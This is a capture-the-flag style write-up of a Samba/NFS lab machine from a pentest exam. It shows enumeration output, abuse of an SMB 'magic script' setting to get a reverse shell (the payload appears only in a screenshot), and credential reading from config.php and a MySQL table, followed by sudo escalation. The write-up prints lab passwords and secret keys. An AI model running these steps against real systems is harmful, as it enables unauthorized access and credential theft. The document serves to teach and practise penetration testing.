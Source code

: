 # Creatigon Basic Pentest Exam (3)

- March 30, 2022, 10:50 pm
- Singha

---

## Summary

- get `nobody` user access via `smb magic script` which is exposed via `nfs' smb.conf` file
- get sql root password via `config.php` file under `/var/www/html` 
- enter sql and found `creatigon` user access at `password` table in `root` database
- `creatigon` user has all access

## Enumeration

### Nmap

```
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind     syn-ack 2-4 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.6.2
2049/tcp open  nfs_acl     syn-ack 3 (RPC #100227)
8081/tcp open  http        syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 6 disallowed entries 
| /config.php /administration/ /includes/ /locale/ 
|_/themes/ /print.php
```

### Samba

- smbmap
```
└─$ smbmap -H $IP   
[+] IP: 10.0.2.24:445   Name: 10.0.2.24                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Anonymous                                               READ, WRITE     Good luck! my Dear Students
        IPC$                                                    NO ACCESS       IPC Service (juniorexam3 server (Samba, Ubuntu))
```
- Anonymous share has RW access
- create a text file and put to smb share for later use (may be)

```
└─$ echo "hello from samba" > smb.txt
└─$ smbclient //$IP/Anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put smb.txt
putting file smb.txt as \smb.txt (1.8 kb/s) (average 1.8 kb/s)
smb: \> ls
  .                                   D        0  Thu Mar 30 12:34:43 2023
  ..                                  D        0  Thu Jun  9 02:57:06 2022
  smb.txt                             A       17  Thu Mar 30 12:34:43 2023
```

### NFS

- check NFS 

```
└─$ showmount -e $IP                     
Export list for 10.0.2.24:
/var/nfs/share *
└─$ mkdir /tmp/s

└─$ sudo mount $IP:/var/nfs/share /tmp/s

└─$ cd /tmp/s               

└─$ ls -la
total 20
drwxr-xr-x  2 nobody nogroup 4096 Jun  9  2022 .
drwxrwxrwt 16 root   root    4096 Mar 30 12:36 ..
-rw-r--r--  1 root   root    9131 Jun  9  2022 smb.conf
```
- only `smb.conf` file in nfs share directory
- Interesting findings in `smb.conf` file

```
[Anonymous]
comment = Good luck! my Dear Students
path = /var/backups/anonymous
browsable =yes
writable = yes
guest ok = yes
read only = no
force user = nobody
magic script = script
```

## User Access

- if we put script file in smb anonymous share, this script will run
- first create reverse shell that will connect to our local machine
- listen with nc at local machine and put to smb and get `nobody` user access

![](screenshots/2023-03-30-23-15-58.png)

- from web config file, found sql password
```sh
nobody@juniorexam3:/var/www/html$ cat config.php
cat config.php
<?php
// database settings
$db_host = '127.0.0.1';
$db_user = 'root';
$db_pass = 'passw0Rd@notw!king';
$db_name = 'webapp';
$db_prefix = 'fusion424jf_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusion424jf_");
define("COOKIE_PREFIX", "fusion63VL5_");
define("SECRET_KEY", "8e6P43fG2y3p64Gq99GN3587ZBUs6G62");
define("SECRET_KEY_SALT", "88512G6231b5lT78PeB36Yw89mGeq8x1");
```
- enter sql with this credentials

```sh
nobody@juniorexam3:/var/www/html$ mysql -uroot -p
mysql -uroot -p
Enter password: passw0Rd@notw!king

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 8.0.29-0ubuntu0.22.04.2 (Ubuntu)
```
- found password table from root database

```sh
mysql> select * from password;
select * from password;
+------+-----------+---------------+
| id   | username  | password      |
+------+-----------+---------------+
|    1 | creatigon | Root@crat1gon |
+------+-----------+---------------+
1 row in set (0.01 sec)
```
- change to `creatigon` user with this password

## Root Access

- `sudo -l`
- creatigon user has all access with sudo

```sh
creatigon@juniorexam3:/tmp$ sudo -l
sudo -l
[sudo] password for creatigon: Root@crat1gon
                                                                                                 
Matching Defaults entries for creatigon on juniorexam3:                                          
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User creatigon may run the following commands on juniorexam3:
    (ALL : ALL) ALL
```

![](screenshots/2023-03-30-23-52-23.png)
